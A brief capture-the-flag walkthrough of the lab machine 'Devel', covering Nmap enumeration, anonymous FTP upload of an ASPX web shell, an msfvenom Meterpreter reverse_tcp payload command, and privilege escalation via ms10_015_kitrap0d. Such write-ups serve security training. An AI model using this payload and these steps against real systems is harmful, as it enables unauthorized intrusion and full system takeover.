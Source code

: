 # Devel - Machine

> [!note]
> IP 10.10.10.5
> Windows Easy

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- ftp
- Metasploit

## Enumeration

- Nmap shows port 21 and 80 is open.

## Exploitation

- FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
- Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

- Used `local_exploit_suggester` module for this.
- After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
